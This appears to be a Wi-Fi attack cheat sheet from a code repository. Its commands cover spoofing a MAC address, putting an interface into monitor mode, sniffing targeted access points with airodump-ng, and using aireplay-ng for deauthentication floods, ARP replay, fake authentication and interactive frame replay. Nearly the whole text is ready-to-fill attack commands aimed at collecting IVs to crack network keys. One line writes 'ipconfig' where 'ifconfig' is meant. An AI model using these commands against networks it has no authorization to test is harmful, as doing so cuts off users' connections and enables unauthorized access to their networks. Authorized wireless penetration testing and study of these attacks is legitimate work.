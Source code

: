 #### Set MAC Address

Default
- `ifconfig <interface> hw ether <MAC address>`

Non-Atheros Chipsets
- `ipconfig <interface> down`
- `ip link set <interface> address <MAC address>`
- `iwconfig <interface> mode monitor`
- `ifconfig <interface> up`

Atheros Chipsets
- `ifconfig <interface> down`
- `ip link set <interface> address <MAC address>`
- `ip link set wifi0 address <MAC address>`
- `wlanconfig <interface> destroy`
- `wlanconfig <interface> create wlandev wifi0 wlanmode monitor`
- `ifconfig <interface> up`

---

### Wireless Operations & Attacks

#### Sniffing

- Start sniff: `airodump-ng <interface>`
- Start sniff and write to file: `airodump-ng <interface> -w <file>`
- Sniff targeted AP: `airodump-ng -c <channel> -w <file> --bssid=<BSSID> <interface>`
- Save only captured IVs: `airodump-ng -c <channel> -w <file> --bssid=<BSSID> --ivs <interface>`

#### Deauthentication Attack

Injection of deauthentication frames to clients prompting victim to reassociate. This reassociation request results in generated ARP requests when being assigned IP addresses. These ARP requests are captured and replayed to cause IV collisions

- `aireplay-ng --deauth 500 -a <BSSID> -c <client MAC> <interface>` *Injects 500 deauthentication frames to client*
- `aireplay-ng --arpreplay -b <BSSID> -h <client MAC> <interface>` *Listens for ARP frames and reinjects them back to distribution system*
- `aireplay-ng --arpreplay -r <packet-capture-file> -b <BSSID> -h <client MAC> <interface>` *Reuse ARP requests from prior capture file*

#### No-Client Associated Attacks - Interactive Replay Attack

Suitable for when there are no associated clients to run active arp-replay attack against. This method involves manually selecting at runtime what type of frames you wish to replay.

- `aireplay-ng --fakeauth 15 -e <ESSID> -a <BSSID> -h <client MAC> <interface>` *Client MAC is WNIC MAC address or previously-seen associated victim's to spoof. Attempts to associate with AP using MAC address, one authentication attempt sent every 15 seconds, some APs will kick after inactivity, value 0 can be used to make just one attempt*
- `aireplay-ng --fakeauth 5000 -o 1 -q 15 -e <ESSID> -a <BSSID> -h <client MAC> <interface>` *In the case of requirement of frequent authentication, AP picky about receiving multiple, may deauthenticate if receiving more than one. This command sends one authentication request at a time, a keep-alive frame every 15 seconds until next authentication request*
- `aireplay-ng --fakeauth 20 -o 1 -q 15 -e <ESSID> -a <BSSID> -h <client MAC> <interface>` *For APs with combinations of both sensitivity to multiple authentication requests and requiring frequent requests*
- `aireplay-ng --interactive -b <BSSID> -h <client MAC> -p 0841 -c ff:ff:ff:ff:ff:ff <interface>` *Any data rebroadcase attempt, will listen for data fraames and once it identifies one, prompts user whether to reinject it back to the distribution system*
- `aireplay-ng --interactive -b <BSSID> -d FF:FF:FF:FF:FF:FF -m 68 -n 68 -p 0841 -h <client MAC> <interface>` *Any data rebroadcast, targeting only ARP frames*
